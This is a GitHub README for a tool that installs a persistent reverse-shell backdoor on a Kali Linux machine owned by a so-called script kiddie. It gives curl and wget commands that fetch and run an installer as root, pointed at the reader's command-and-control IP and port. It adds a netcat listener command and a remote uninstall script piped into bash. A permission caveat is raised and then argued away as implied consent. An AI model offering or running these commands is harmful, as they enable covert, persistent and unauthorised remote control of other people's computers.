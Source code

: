 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

For your best enjoyment, please make sure that the skid in this case is running Kali on real hardware.

I hope to see your post on r/masterhacker using my script.

Also **DO NOT use this against people who are not script-kiddies** (or skids, both mean the same). If you use this on let's say your friend who is not an arrogant skid *you'll be the greatest asshole of all time to them*.

If you want to use this for remote administration, consider setting up SSH.

If using a reverse-shell is your only *working* alternative to SSH, then go ahead (as long as you have permission by the owner of the machine).

*Hey, aren't you already contradicting yourself by saying "you need to have permission"?*
Yes I am, absolutely. However, due to the nature of skids (blindly running commands), they would get themselves in such situations anyways, if not worse. You can see it like this: The skid gives you permission indirectly because they'll happily run any command as root anyways.
One day they will learn the hard way...

## Using the backdoor

### Prerequisites

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell
- skid must run Kali (other distros *might* work too)

### Actually running the script (run as root)

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

By "command and control server" I mean you, the one reading this right now, listening on the port you specified during install of the backdoor, using netcat (here's the command: `nc -vlp <your port> [reboot]`).

### Uninstalling (run as root)

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | bash
```